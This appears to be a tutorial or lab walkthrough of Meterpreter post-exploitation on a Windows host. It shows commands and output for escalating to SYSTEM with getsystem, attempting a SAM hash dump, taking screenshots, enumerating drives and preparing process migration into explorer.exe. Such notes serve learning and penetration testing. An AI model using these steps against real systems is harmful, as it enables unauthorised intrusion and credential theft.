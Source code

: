 ```
Priv：提升命令
======================

     命令       说明
     ------     ----------
     getsystem  尝试将您的特权提升到本地系统的特权。


Priv：密码数据库命令
================================

     命令       说明
     ------     ----------
     hashdump   转储 SAM 数据库的内容
```

```
meterpreter > screenshot
```

Try and elevate our privileges. `NT AUTHORITY\SYSTEM` is the highest level of privilege on a Windows system.

```
meterpreter > getsystem
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We can also run the `hashdump` command to dump hashes. And in this case, it looks like that failed primarily because we may not have access to the SAM database.

```
meterpreter > hashdump
```

`show_mount` command will display a list of mounts or drives attached to the system.

It also tells us the type, whether it's fixed or whether it is removable. In the case of removable, that would typically indicate that this is a USB flash drive or an external hard drive.

That is the process of enumerating the mounts and drives attached to the Windows target.

```
meterpreter > show_mount
```

List out the process tree.

```
meterpreter > ps
```

If we want to migrate to explorer.exe, we can utilize the process id or the name of the process.

```
PID     PPID    Name            Arch    Session    User                             Path
---     ----    ----            ----    -------    ----                             -----
2212    2164    explorer.exe    x64     1           WIN-OMCNBKR66MN\Administrator   C:\Windows\explorer.exe
```
